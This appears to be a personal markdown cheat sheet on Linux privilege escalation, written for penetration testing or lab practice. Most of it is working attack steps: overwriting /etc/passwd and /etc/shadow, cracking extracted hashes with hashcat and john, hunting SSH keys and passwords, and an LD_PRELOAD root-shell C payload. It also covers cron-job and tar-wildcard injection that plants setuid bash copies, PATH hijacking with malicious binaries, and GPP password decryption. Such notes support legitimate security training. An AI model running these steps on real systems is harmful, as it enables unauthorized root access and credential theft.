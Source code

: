 




<h2> World Writeable files </h2><br>
Check for files owned and executed as root writeable by anyone <br>
Find world writable folders:<br>
$ find / -perm -0002 -type d 2>/dev/null<br>
<br>
see if /etc/passwd is writeable --- ls -l /etc/passwd <br>
if it is, generate a new password with openssl passwd newpasshere <br>
copy and open etc/passwd paste into root user between first and 2nd :
![image](https://user-images.githubusercontent.com/35967437/202036336-b61520e1-717d-4d25-a6a3-8f53819ca2f1.png) <br>
<br>
Find writeable for current user<br>
$ find / -path /proc -prune -o -writable 2>/dev/null<br>
<br>

Find world writable files- exclude proc:<br>
$ find / -path /proc -prune -o -perm -0002 -type f 2>/dev/null<br>
<br>
Hidden or missed files in web directories:<br>
$ ls -alhR /var/www/
$ ls -alhR /var/www/html/
$ ls -alhR /srv/www/htdocs/
$ ls -alhR /usr/local/www/apache22/data/
$ ls -alhR /opt/lampp/htdocs/<br>
<br>
Web logs:<br>
$ cat /etc/httpd/logs/access_log
$ cat /etc/httpd/logs/access.log
$ cat /etc/httpd/logs/error_log
$ cat /etc/httpd/logs/error.log
$ cat /var/log/apache2/access_log
$ cat /var/log/apache2/access.log
$ cat /var/log/apache2/error_log
$ cat /var/log/apache2/error.log
$ cat /var/log/apache/access_log
$ cat /var/log/apache/access.log
$ cat /var/log/auth.log
$ cat /var/log/chttp.log
$ cat /var/log/cups/error_log
$ cat /var/log/dpkg.log
$ cat /var/log/faillog
$ cat /var/log/httpd/access_log
$ cat /var/log/httpd/access.log
$ cat /var/log/httpd/error_log
$ cat /var/log/httpd/error.log
$ cat /var/log/lastlog
$ cat /var/log/lighttpd/access.log
$ cat /var/log/lighttpd/error.log
$ cat /var/log/lighttpd/lighttpd.access.log
$ cat /var/log/lighttpd/lighttpd.error.log
$ cat /var/log/messages
$ cat /var/log/secure
$ cat /var/log/syslog
$ cat /var/log/wtmp
$ cat /var/log/xferlog
$ cat /var/log/yum.log
$ cat /var/run/utmp
$ cat /var/webmin/miniserv.log
$ cat /var/www/logs/access_log
$ cat /var/www/logs/access.log
$ ls -alh /var/lib/dhcp3/
$ ls -alh /var/log/postgresql/
$ ls -alh /var/log/proftpd/
$ ls -alh /var/log/samba/<br>
<br>
User enum

User folders
Whoami
Id
/etc/passwd/
Grep usernames - Grep --color=auto -rnw '/' -ie "password" --color=always 2> /dev/null

Password and sensitive file hunting
Grep --color=auto -rnw '/' -ie "password" --color=always 2> /dev/null
Locate password | more

History

Ls -la then cat .bash_history

Write contents of /etc/passwd and /etc/shadow to 2 diff files - then use tool called unshadow
unshadow passwordfile.txt shadowfile.txt > unshadowed.txt
(only works if access to shadow passwd) - ls -la /etc/shadow
Then crack with hashcat -hashcat -m 1800 unshadowex.txt wordlist.txt -O
Crack with John - john --wordlist=/home/kali/rockyou.txt hashname.txt

See if /etc/shadow is writeable - ls -la /etc/shadow
mkpasswd -m sha-512 yourpasswordhere

Finding SSH Keys
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null

Should you find a rsa key - can get root shell with 2 commands
Copy rsa key to file on attacking machine
Run - chmod 400 rsakey
Run ssh -i rsakey username@ip

SUDO Priv Esc
see what a user has sudo rights too - sudo -l
should it ask for a sudo password - user has no sudo rights

Should stuff come up, take the names and search on gtfobins for sudo execution on the software

SUID
Type find / -type f -perm -04000 -ls 2>/dev/null to see what software has SUID set
use GTFO bins to look at software and see if any SUID exploits exist
Find known exploits with SUID - find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
Look for any version and google CVEs


Sudo LD_Preload
Sudo -l look for LD_PRELOAD at the top (pre loads a library)
Create a file 
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

Save file as x.c
Type 
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
Type 
sudo LD_PRELOAD=/tmp/x.so service you can run as sudo with sudo -l
Type id


Shared Object Injection
find / -type f -perm -04000 -ls 2>/dev/null
Look for something we can inject (look at each path and see what each thing does, are they scripts?) Can use a tool called strace  ---- strace /location/to/path ---- have a look for errors such as missing files or directories
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
Create the directory / file and add malicious code


Capabilities
use command getcap to list capabilities - when run as unpriv user use getcap -r / 2>/dev/null
serach on GTFO bins for any capabilities with the software names discovered

Cron Jobs
Any user can read the file keeping system-wide cron jobs under /etc/crontab - cat /etc/crontab
Edit any cron jobs that have permission and replace with a reverse shell using nano filename then edit. Ensure it runs as root.



Means runs every minute
Overwrite file with output such as 
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /file/path/ofcron.sh
chmod +x ofcron.sh
This will overwrite to tmp/bash and if you call /tmp/bash -p after the job has run it'll work

Also check systemd timers ---- systemctl list-timers --all

Cron Jobs with wildcard
Tar exploitation - when identifying cron jobs (cat /etc/crontab), there may be a job running using tar and a wildcard. You may have read only rights here.

E.g. A script contains this
cd important-directory
tar cf /var/backups/backup.tar *

First CD to the directory in the script
Add a malicious file --- echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > output.sh
chmod +x output.sh
touch  /directory/of/script--checkpoint=1
touch  /directory/of/script--checkpoint-action=exec=sh\ output.sh
/tmp/bash -p (have to wait for script to be run on timer)

Cron Jobs with overwrite
Check file perms of any cron jobs u find (ls -la filename.sh)
If write permissions can overwrite file
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> filename.sh

Path
find / -perm -u=s -exec ls -l {} \; 2>/dev/null
Look for non linux binaries

Or - find / -type f -perm -04000 -ls 2>/dev/null and look at binaries, run strings on the path -- strings /location/path and see if anything's interesting are there any system commands being called without a path defined? If so see if you can write a new PATH -export PATH=/tmp(change to the directory exploit is located):$PATH
To see current path type - echo "$PATH"

1. In command prompt type:
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c (making new c file malicious service and writing it to the tmp folder)
2. In command prompt type: gcc /tmp/service.c -o /tmp/service   (outputting the file from C)
3. In command prompt type: export PATH=/tmp:$PATH  (creating new path variable)
4. In command prompt type: /usr/local/bin/suid-env   (this changes to whatever binary you identified)
5. In command prompt type: id

Another way
Repeat the find step ( - find / -type f -perm -04000 -ls 2>/dev/nul) and look at binary strings, if there is a system command being called with a direct service you could try create a new function as that service

E.g. If a binary has /usr/sbin/service apache 2 this shows it is reaching out to /usr/sbin to call the system command service. 
	1. Create a mew function with the path -- function /usr/sbin/service() {cp /bin/bash /tmp && chmpd +s /tmp/bash && /tmp/bash -p; }
	2. Export - ---- export -f /usr/sbin/service (ovbs change to the system command u find)
	3. Re -run the binary 


GPP Attacks
Sometimes stored in sysvol, cpassword is encrypted, can be de-crypted. Check with Metasploit - smb_enum_gpp.
Download if accessible via SMB by authing to smb - using mget command - mget * to download all files
To decrypt cpassword - use tool call gpp-decrypt



C code for priv esc
int main() {
        setuid(0);
        system("/bin/bash -p");
}

Save as like service.c

Then to compile run -- gcc -o service /path/of/file/service.c

![image](https://user-images.githubusercontent.com/35967437/202722690-d92d3b63-6bab-411a-bb3c-977f16f9561b.png)


<h1>kernel exploits</h1>
if established session with MSFCONSOLE while sessions is established type run post/multi/recon/local_exploit_suggester identify vulnerability and type use exploitname set SESSION [meterpreter SESSION number] set LPORT run <br>
<br>

<h2>Further Paths </h2> <br>
if you find say a cron job or script referencing a system command e.g. cat, run env | grep PATH and take a look at the path. Then run which cat and see where this is being called from, e.g. /bin/cat. <br>
Run a command - touch /bin and see if you can read/write the directory, if so /mv /bin/cat /tmp <br>
Create new file named cat chmod +x cat and add reverse shell <br>
This will now be run everytime a cronjob or file references the system command. <br>
<br>
Run find / -perm -u=s -exec ls -l {} \; 2>/dev/null and look for non normal linux binary, e.g. /usr/bin/menu. Have a look if this runs as root. <br>
run strings on the full path - strings /usr/bin/menu and see what is happening, are there system commands being run? <br>
e.g. if curl is being run we can create a vulnerable version of curl. <br>
Create malicious version of curl in /tmp directory and add /tmp to path $ export - export PATH=/tmp:$PATH <br>
Execute the original binary e.g /usr/bin/menu <br>
This happens because path checks left to right every directory specified for the file, new added path directory is first on left

<h2> Cron paths </h2><br>
cat /etc/crontab <br>
look at the PATH value <br>
Create new file in path being called e.g /home/user <br>
add code<br>
#!/bin/bash<br>
<br>
cp /bin/bash /tmp/rootbash<br>
chmod +xs /tmp/rootbash<br>
<br>
add chmod +x file.sh <br>
wait for cronjob to run and run /tmp/rootbash -p <br>

